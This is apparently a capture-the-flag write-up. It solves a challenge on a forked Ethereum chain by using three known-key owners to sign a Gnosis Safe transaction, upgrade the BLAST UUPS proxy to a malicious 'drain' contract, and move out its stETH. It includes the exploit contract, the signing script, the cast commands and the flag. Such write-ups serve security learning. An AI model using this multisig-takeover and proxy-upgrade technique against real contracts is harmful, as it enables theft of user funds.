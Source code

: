 # Be biLlionAireS Today (16 solves) (244 points)

```
Tony led the tech team for a shady Ethereum L2. He assured the CEO that a multi-signature wallet architecture would help protect user funds. He claimed private keys of multisig owners were stored in different hardware wallets and tattooed under his feet so it is super safe.

Note: This challenge runs on fork of Ethereum. Tony added three additional addresses to the multisig:
- 0x6813Eb9362372EEF6200f3b1dbC3f819671cBA69
- 0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf
- 0x2B5AD5c4795c026514f8317c7a215E218DcCD6cF
```

The goal is to get >= 260000 ether of stETH and send to the challenge contract

```solidity

    function isSolved() public view returns (bool) {
        return stETH.balanceOf(address(this)) >= 260000 ether;
    }
```

Multisig :
https://etherscan.io/address/0x67CA7Ca75b69711cfd48B44eC3F64E469BaF608C

It is a Gnosis Safe multisig, it has a `threshold` of 3

![](https://i.imgur.com/BVvWwWw.png)

So, it just need 3 signers to confirm a transaction, and Tony has added 3 addresses to the multisig, and private key of that 3 addresses are known, which are 0x1, 0x2 and 0x3

So we can basically control the multisig, but what's special about this multisig?

I just google the address of the multisig and found this tweet :

https://twitter.com/0xAlex_/status/1726924638939463867

It is the owner of this BLAST contract (thats why the challenge have B L A S T in upper case) : 0x5F6AE08B8AeB7078cf2F96AFb089D7c9f51DA47d

https://etherscan.io/address/0x5F6AE08B8AeB7078cf2F96AFb089D7c9f51DA47d

And that contract has lots of stETH

![](https://i.imgur.com/jtgzTfk.png)

It is a UUPS proxy and the implementation is here :

https://etherscan.io/address/0xa01def05a37850b2e13c8c839aa268845df14276#code


We can upgrade it if we are the owner

```solidity
    function _authorizeUpgrade(address) internal override onlyOwner {}
```

So we can just upgrade it to our malicious contract and drain it's stETH

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Challenge.sol";

contract beBillionaireTodayExploit {

    function proxiableUUID() public view returns (bytes32) {
        return 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    }

    function drain(address to, uint256 amount) public {
        address(0xae7ab96520DE3A18E5e111B5EaAb095312D7fE84).call(abi.encodeWithSignature("transfer(address,uint256)", to, amount));
    }
}
```

So now we have to sign a transaction to submit a transaction as the multisig, but I'm not familiar with Gnosis Safe multisig, so I spent quite some time to understand its code

First we have to use `encodeTransactionData()` to encode our transaction, which is a call to `upgradeTo()` in the Blast contract

```
 »  abi.encodeWithSignature("upgradeTo(address)", 0x477DA0a84A17bA9e2142Bb0cA2B5Cd7D8Fd55faC)
0x3659cfe6000000000000000000000000477da0a84a17ba9e2142bb0ca2b5cd7d8fd55fac
```

```
# cast call 0x67CA7Ca75b69711cfd48B44eC3F64E469BaF608C "encodeTransactionData(address,uint256,bytes,uint8,uint256,uint256,uint256,address,address,uint256)(bytes)" 0x5F6AE08B8AeB7078cf2F96AFb089D7c9f51DA47d 0 0x3659cfe6000000000000000000000000477da0a84a17ba9e2142bb0ca2b5cd7d8fd55fac00000000000000000000000000000000000000000000000000000000 0 0 0 0 0x0000000000000000000000000000000000000000 0x0000000000000000000000000000000000000000 4 -r http://rpc.ctf.so:8545/jbplodsragfywxownltzfrfj/main
0x190147ef22e6b97dff365f80f221989a28eb2d460c7c9933f9980ba4327ce2dad7d3907bde41ced48765f784e3248a23238a6d85919b25020a8e82c2afc37b1fe466
```

After we encoded the transaction data, we can sign the encoded data with the private key of 3 owners we control, and then concatenate the signatures ordered by the addresses

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "forge-std/Script.sol";

contract SignSignature is Script {
    function sign(uint256 privateKey, bytes32 msgHash) public returns (bytes memory) {
        (uint8 sig_v, bytes32 sig_r, bytes32 sig_s) = vm.sign(privateKey, msgHash);

        console.log("------------------------------------------------------------------------");
        console.log("address :", vm.addr(privateKey));
        console.log("msgHash :");
        console.logBytes32(msgHash);

        console.log("v, r, s :");
        console.log(sig_v);
        console.logBytes32(sig_r);
        console.logBytes32(sig_s);
        console.log("signature :");
        console.logBytes(abi.encodePacked(sig_r, sig_s, sig_v));
        return abi.encodePacked(sig_r, sig_s, sig_v);
    }

    function run() public {
        uint256 privateKey = 1;
        // msg hash of gnosis safe encoded txn :
        bytes32 msgHash = keccak256(hex"190147ef22e6b97dff365f80f221989a28eb2d460c7c9933f9980ba4327ce2dad7d3907bde41ced48765f784e3248a23238a6d85919b25020a8e82c2afc37b1fe466");
        bytes memory sig1 = sign(privateKey, msgHash);
    
        privateKey = 2;
        bytes memory sig2 = sign(privateKey, msgHash);

        privateKey = 3;
        bytes memory sig3 = sign(privateKey, msgHash);

        console.log("------------------------------------------------------------------------");
        console.log("concatenated signature for gnosis safe :");
        // signatures are ordered by the addresses
        console.logBytes(abi.encodePacked(sig2, sig3, sig1));
    }
}
```

```
# forge script script/sign.s.sol
...
  concatenated signature for gnosis safe :
  0xddfde1e33baa6b3ca2c3697be7ae8ecc7bb8a536bcc441e725081e05ee5d949337502443a4a6644ee9e7dc4c0b1ae552ded5fbc7c35aa7cafd5fdc6392f616cd1bd270f19ed0c6193da365ff3925134980ecc06e8de006c8c260e9f809c7e3172732333a8b5a68b36303230f8883d12fb8e7e2a6b694030c86e8d95bcb4b0ec2921b3d92acecff0c3895b72008d9d8f33a366289cd6d93749b1593e7437df316dc8226394416d6926b4c49753106cdeaedc6ba2fb18cac908b1a332cc38807fe3d4f1c
```

After it is signed, call `execTransaction()` with the signature and the transaction data

```
# cast send 0x67CA7Ca75b69711cfd48B44eC3F64E469BaF608C "execTransaction(address,uint256,bytes,uint8,uint256,uint256,uint256,address,address,bytes)" 0x5F6AE08B8AeB7078cf2F96AFb089D7c9f51DA47d 0 0x3659cfe6000000000000000000000000477da0a84a17ba9e2142bb0ca2b5cd7d8fd55fac00000000000000000000000000000000000000000000000000000000 0 0 0 0 0x0000000000000000000000000000000000000000 0x0000000000000000000000000000000000000000 0xddfde1e33baa6b3ca2c3697be7ae8ecc7bb8a536bcc441e725081e05ee5d949337502443a4a6644ee9e7dc4c0b1ae552ded5fbc7c35aa7cafd5fdc6392f616cd1bd270f19ed0c6193da365ff3925134980ecc06e8de006c8c260e9f809c7e3172732333a8b5a68b36303230f8883d12fb8e7e2a6b694030c86e8d95bcb4b0ec2921b3d92acecff0c3895b72008d9d8f33a366289cd6d93749b1593e7437df316dc8226394416d6926b4c49753106cdeaedc6ba2fb18cac908b1a332cc38807fe3d4f1c -r http://rpc.ctf.so:8545/jbplodsragfywxownltzfrfj/main --private-key 0x50728cae7bdddce6508167f62d02ef747c73dade6ce0b155dfcc77c699a3ddec
```

Finally, we can just drain the stETH to the challenge contract

```
# cast send 0x5F6AE08B8AeB7078cf2F96AFb089D7c9f51DA47d "drain(address,uint256)" 0x05AdA4b44712112ff994fa8F499bf571DB4d866B 263588214151196931285748 -r http://rpc.ctf.so:8545/jbplodsragfywxownltzfrfj/main --private-key 0x50728cae7bdddce6508167f62d02ef747c73dade6ce0b155dfcc77c699a3ddec --gas-limit 9999999
```

```
# cast call 0x05AdA4b44712112ff994fa8F499bf571DB4d866B "isSolved()" -r http://rpc.ctf.so:8545/jbplodsragfywxownltzfrfj/main
0x0000000000000000000000000000000000000000000000000000000000000001
```

### Flag

```
blaz{C0ngr6t3_yOu_aR3_a1m0s7_Bi11iona1r3s$$}
```

After solving the challenge, I see that the Blast contract is really centralized, and the owners can rug the whole protocol and steal billion dollar worth of tokens at any time